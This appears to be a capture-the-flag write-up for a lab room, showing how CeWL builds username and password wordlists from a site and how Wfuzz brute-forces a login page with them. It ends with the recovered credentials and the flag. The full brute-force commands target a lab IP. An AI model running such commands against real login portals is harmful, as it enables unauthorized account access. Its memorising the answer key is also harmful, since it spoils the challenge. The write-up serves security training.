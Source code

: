 # Baby, It’s CeWLd Outside
## Scenario

The team detects a malicious actor using an employee account to access an internal messaging portal. Help McSkidy figure out how they might have gained the correct credentials
## Learning Objectives

    What is CeWL?
    What are the capabilities of CeWL?
    How can we leverage CeWL to generate a custom wordlist from a website?
    How can we customise the tool’s output for specific tasks?

## Overview

    CeWL (pronounced “cool”) is a custom word list generator tool that spiders websites to create word lists based on the site’s content.
    Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website’s content, often to retrieve the site structure, content, and other relevant details.
    This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.
    Beyond simple wordlist generation, CeWL can also compile a list of email addresses or usernames identified in team members’ page links.
    Such data can then serve as potential usernames in brute-force operations.

First we use the AntarctiCrafts homepage to generate a wordlist that could potentially hold the key to the portal.
we thus use the command `cewl -d 2 -m 5 -w pswd.txt http://10.10.138.243 --with-numbers`

This spiders two links deep and lists words with minimum 5 letters. The --with-numbers option will append numbers to words.

Now we must make another file for the usernames.

Thus we use the following command `cewl -d 0 -m 5 -w usrnms.txt http://10.10.138.243/team.php --lowercase`

These files must be tried in the login.php site so we can find the correct pair, This can be done by a command tool called Wfuzz.

The command we use is `wfuzz -c -z file,usrnms.txt -z file,pswd.txt --hs "Please enter the correct credentials" -u http://10.10.138.243/login.php -d "username=FUZZ&password=FUZ2Z"`

    -z file,usrnms.txt loads the usernames list.

    -z file,pswd.txt uses the password list generated by CeWL.

    --hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.

    -u specifies the target URL.

    -d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.

We get the output as
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/47cb6bdb-4dd6-48e0-b634-435e1309a271)
Now we enter these credentials and retrieve the flag 
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/c4216722-1963-4036-b799-da1d5b99fa5e)


### 1. What is the correct username and password combination? Format username: password
Ans: isaias:Happiness

### 2. What is the Flag?
Ans: THM{m3rrY4nt4rct1crAft$}
